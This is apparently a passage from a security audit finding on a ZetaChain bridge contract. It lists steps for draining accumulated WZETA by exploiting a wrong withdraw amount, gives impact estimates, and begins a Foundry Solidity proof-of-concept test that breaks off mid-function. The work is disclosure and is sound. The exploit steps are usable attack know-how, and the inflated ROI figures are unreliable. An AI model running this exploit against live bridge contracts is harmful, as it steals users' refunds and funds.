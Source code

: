 1. Target accumulated WZETA in contracts
2. Craft swap producing large outputAmount
3. Set `decoded.targetZRC20 = WZETA`
4. Contract calls `IWETH9(WZETA).withdraw(outputAmount)` using wrong amount
5. Attacker receives native ZETA

## Impact

### Economic Impact

- Cost: $1-5 per attack (cheap input tokens)
- Profit: $100-50,000+ per attack (depending on accumulated balances)
- ROI: 100,000% to 10,000,000% (hundred million percent)
- Scalability: Repeatable across all bridge contracts

### Systemic Impact

- Complete bridge draining: Entire token inventories can be systematically stolen
- User fund loss: Legitimate refunds stolen before users can claim
- Cross-chain disruption: Bridge operations compromised

### Victim Impact

- Refund loss: Users with legitimate claims lose their tokens to attackers

## PoC

Create a new file and in `/test` and paste the following code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";
import {BaseTest} from "./BaseTest.t.sol";
import "@zetachain/protocol-contracts/contracts/zevm/interfaces/IGatewayZEVM.sol";

contract ParamAttack is BaseTest {
    function test_POC_Param_Attack() public {
        // Give BOTH contracts the token2Z they need
        uint256 extra = 150 ether;
        deal(address(token2Z), address(gatewayTransferNative), extra); // Sending contract
        deal(address(token2Z), address(gatewaySendB), extra); // Receiving contract

        console.log("gatewayTransferNative has token2Z:", token2Z.balanceOf(address(gatewayTransferNative)) / 1e18);
        console.log("gatewaySendB has token2Z:", token2Z.balanceOf(address(gatewaySendB)) / 1e18);

        // EXACT SAME as working test but change targetZRC20
        uint256 amount = 100 ether;
        uint32 dstChainId = 2;
        address targetZRC20 = address(token2Z); // ONLY CHANGE: target token2Z instead of token1Z
        bytes memory sender = abi.encodePacked(user1);
        bytes memory receiver = abi.encodePacked(user2);
        bytes memory swapDataZ = "";
        bytes memory contractAddress = abi.encodePacked(address(gatewaySendB));
        bytes memory fromTokenB = abi.encodePacked(address(token2B)); // Use token2B to match token2Z
        bytes memory toTokenB = abi.encodePacked(address(token2B)); // Use token2B to match token2Z
        bytes memory swapDataB = "";
        bytes memory accounts = "";
        bytes memory message = encodeMessage(
            dstChainId,
```